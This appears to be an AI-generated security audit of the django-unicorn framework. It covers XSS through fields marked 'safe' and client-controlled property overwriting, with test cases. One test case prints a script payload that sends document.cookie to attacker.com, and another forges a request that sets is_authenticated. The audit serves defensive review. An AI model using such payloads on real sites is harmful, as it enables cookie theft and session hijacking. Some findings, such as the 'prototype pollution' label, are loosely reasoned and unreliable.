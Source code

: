 # Updated Security Vulnerabilities for django-unicorn

After reviewing the provided list according to the specified criteria, here are the vulnerabilities that meet the requirements:

## Cross-Site Scripting (XSS) via HTML Sanitization Bypass

### Description
In versions prior to 0.36.0, django-unicorn didn't encode HTML responses by default, which could lead to cross-site scripting vulnerabilities. While this issue was addressed in version 0.36.0 (as noted in the changelog for CVE-2021-42053), the framework still allows developers to explicitly opt-out of HTML encoding through the `safe` attribute in a component's `Meta` class. If a field is marked as "safe" and contains user-controlled input, this could result in XSS.

### Impact
An attacker could execute arbitrary JavaScript in a victim's browser context if they can inject malicious code into a field that is marked as "safe". This could lead to cookie theft, session hijacking, and other client-side attacks.

### Vulnerability Rank
High

### Currently Implemented Mitigations
- As of v0.36.0, django-unicorn HTML encodes responses by default
- Developers must explicitly opt-in to disable HTML encoding for specific fields

### Missing Mitigations
- No runtime warnings when using `safe` with user-controlled input
- No built-in content security policy recommendations

### Preconditions
1. The application must use a component with fields marked as "safe" in the `Meta` class
2. These "safe" fields must contain user-controlled input

### Source Code Analysis
The vulnerability is rooted in the ability for developers to mark fields as "safe" in a component's `Meta` class:

```python
class SafeExampleView(UnicornView):
    something_safe = ""

    class Meta:
        safe = ("something_safe", )
```

When a field is marked as "safe", django-unicorn will not HTML encode its value before sending it to the client. If an attacker can control the content of `something_safe`, they could inject malicious JavaScript.

For example, if an application has a component that takes user input and stores it in a field marked as "safe":

```python
def save_user_input(self):
    self.something_safe = self.user_input  # self.user_input contains attacker-controlled data
```

When rendered in a template like:

```html
<div>
  {{ something_safe }}  <!-- This will not be HTML encoded -->
</div>
```

If `self.user_input` contains `<script>alert(document.cookie)</script>`, this JavaScript would be executed in the victim's browser.

### Security Test Case
1. Create a component with a field marked as "safe":
   ```python
   class VulnerableComponent(UnicornView):
       user_input = ""
       output = ""

       class Meta:
           safe = ("output",)

       def process_input(self):
           self.output = self.user_input
   ```

2. Create a template that uses this component:
   ```html
   <div>
     <input unicorn:model="user_input" type="text">
     <button unicorn:click="process_input">Process</button>
     <div>{{ output }}</div>
   </div>
   ```

3. As an attacker, input the following into the text field:
   ```
   <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
   ```

4. Click the "Process" button.
5. The script will execute in the victim's browser, sending their cookies to the attacker's server.

## Prototype Pollution through Dynamic Property Setting

### Description
Django-unicorn dynamically sets properties on components based on data received from client requests. If an attacker can manipulate this data, they might be able to set arbitrary properties on component objects, which could lead to prototype pollution or other unexpected behavior.

### Impact
An attacker could potentially modify core functionality of the application, bypass security checks, or inject unexpected behavior. In extreme cases, this could lead to server-side code execution.

### Vulnerability Rank
High

### Currently Implemented Mitigations
- The framework has some validation against setting non-existent properties
- Type checking is performed when possible

### Missing Mitigations
- No comprehensive validation of property names
- No allowlist of safe properties to set

### Preconditions
1. The application must use components with dynamic properties
2. An attacker must be able to manipulate the request data

### Source Code Analysis
In `django_unicorn/components/unicorn_view.py`, the `_set_property` method sets properties on components based on received data:

```python
def _set_property(
    self,
    name: str,
    value: Any,
    *,
    call_updating_method: bool = False,
    call_updated_method: bool = False,
    call_resolved_method: bool = False,
) -> None:
    # Get the correct value type by using the form if it is available
    data = self._attributes()

    value = cast_attribute_value(self, name, value)
    data[name] = value

    # ... type checking and other logic ...

    try:
        setattr(self, name, value)

        # Call hook methods if needed
    except AttributeError:
        raise
```

This property setting is triggered via client requests through the action parsers, as seen in `sync_input.py`:

```python
def handle(component_request: ComponentRequest, component: UnicornView, payload: Dict):
    property_name = payload.get("name")
    property_value = payload.get("value")

    # Logic for determining whether to call resolved methods

    set_property_value(
        component, property_name, property_value, component_request.data, call_resolved_method=call_resolved_method
    )
```

While there are checks to ensure properties exist (through `hasattr`), there's still a risk that an attacker could set sensitive properties that shouldn't be modified by user input, such as internal methods or properties used for security checks.

### Security Test Case
1. Create a component with a security-sensitive property:
   ```python
   class SecureComponent(UnicornView):
       is_authenticated = False
       sensitive_data = "Only for authenticated users"

       def get_data(self):
           if self.is_authenticated:
               return self.sensitive_data
           return "Access denied"
   ```

2. As an attacker, intercept a request to the component and add the sensitive property:
   ```json
   {
     "data": {
       "is_authenticated": true
     }
   }
   ```

3. When the server processes this request, it will set `is_authenticated` to `True`.
4. Subsequent calls to `get_data` will return the sensitive data.
